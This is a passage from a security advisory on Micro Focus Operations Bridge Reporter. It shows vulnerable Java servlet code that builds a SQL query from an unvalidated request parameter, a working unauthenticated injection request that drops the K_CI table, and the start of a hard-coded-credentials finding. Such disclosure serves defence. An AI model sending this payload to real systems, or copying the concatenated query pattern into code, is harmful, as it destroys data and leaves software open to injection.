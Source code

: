 ```java
			String paramName = (String)params.nextElement();
			System.out.println("Attribute Name - " + paramName + ", Value - " + request.getParameter(paramName));
		}
		String doc = request.getParameter(dbProperties.getProperty("iDocID"));
		String globalId = request.getParameter(dbProperties.getProperty("globalId"));
		if (globalId == null) {
			cmdbId = request.getParameter(dbProperties.getProperty("ciId"));
		} else {
			DBManager db = new DBManager();
			this.connection = db.openDBConnection();
			System.out.println(this.connection);
			try {
				this.statement = this.connection.createStatement();
				this.rs = this.statement.executeQuery("select CI_UID from K_CI where GlobalId='" + globalId + "'");
				if (this.rs != null) {
					while (this.rs.next()) {
						System.out.println("CI UID" + this.rs.getString("CI_UID"));
						cmdbId = this.rs.getString("CI_UID");
					}
				}
			}
			catch (SQLException e) {
				e.printStackTrace();
			}
		}
```

> Snippet 13: *ServiceReportServlet.doPost()*

As it can be seen above, the query being executed embeds the *globalId* parameter, taken directly from an HTTP GET or POST request, without any kind of validation.

This endpoint is accessible by an unauthenticated user, and can be exploited by sending a request such as:

```
GET /MySHR/ServiceReportServlet?globalId='%3bDROP+TABLE+K_CI%3b HTTP/1.1
Host: mfobr.nat:21412
```

The server will respond with a 500 error, but our query will have executed ("';DROP TABLE K_CI"), dropping the table K_CI on the Vertica database and rendering OBR unusable.


### #3: Use of Hard-coded Credentials
* [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)
* [CVE-2020-11857](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11857) / [ZDI-20-1215](https://www.zerodayinitiative.com/advisories/ZDI-20-1215/)
* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: None / N/A
* Affected Products / Versions:
    * Micro Focus Operations Bridge Reporter 10.40 (earlier versions likely affected)
